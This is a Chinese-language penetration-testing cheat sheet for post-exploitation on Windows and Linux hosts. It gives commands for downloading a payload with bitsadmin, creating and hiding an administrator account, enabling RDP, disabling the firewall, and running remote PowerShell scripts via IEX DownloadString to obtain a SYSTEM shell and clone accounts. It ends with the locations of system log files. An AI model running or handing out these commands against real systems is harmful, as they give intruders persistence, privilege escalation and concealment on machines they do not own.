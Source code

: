 bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008

fuser -nv tcp 80 查看端口 pid

rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)

where file win 查找文件是否存在

找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i

netstat -apn | grep 8888   kill -9 PID   查看端口并 kill
远程登录内网主机
判断是内网，还是外网，内网转发到 vps

netstat -ano   没有开启 3389 端口,复查下

tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.
在主机上添加账号
net user admin1 admin1 /add & net localgroup administrators admin1 /add
如不允许远程连接，修改注册表

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:

netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
关闭防火墙

netsh firewall set opmode mode=disable
3389user 无法添加:

http://www.91ri.org/5866.html
**隐藏 win 账户**

开启 sys 权限 cmd:

IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'
add user 并隐藏:

IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
win server 有密码强度要求，改为更复杂密码即可:

渗透技巧——Windows 系统的帐户隐藏

https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/
windows 的 RDP 连接记录:

http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/

应用程序日志,安全日志,系统日志,DNS日志
%systemroot%\system32\config,默认文件大小512KB小.
安全日志文件:
%systemroot%\system32\config\SecEvent.EVT
系统日志文件:
%systemroot%\system32\config\SysEvent.EVT
应用程序日志文件:
%systemroot%\system32\config\AppEvent.EVT
Internet信息服务日志
FTP日志默认位置:
%systemroot%\system32\logfiles\msftpsvc1\ \\默认每天一个日志
WWW日志默认位置:
%systemroot%\system32\logfiles\w3svc1\ \\默认每天一个日志
Scheduler服务日志
